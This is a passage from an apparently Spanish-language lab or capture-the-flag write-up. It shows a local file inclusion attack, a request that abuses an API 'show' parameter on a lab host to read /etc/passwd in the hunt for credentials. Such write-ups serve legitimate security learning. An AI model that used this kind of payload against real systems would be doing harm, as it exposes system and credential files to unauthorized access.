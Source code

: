 ![20230923013457.png](20230923013457.png)

## Explotación

### Explotación del LFI 

Ahora vamos a intentar leer algunos archivos del sistema que puedem ser interesantes y que contengan credenciales, uno de estos es el `/etc/passwd/`

```shell
view-source:http://10.10.15.203:5000/api/v1/resources/books?show=/etc/passwd
```
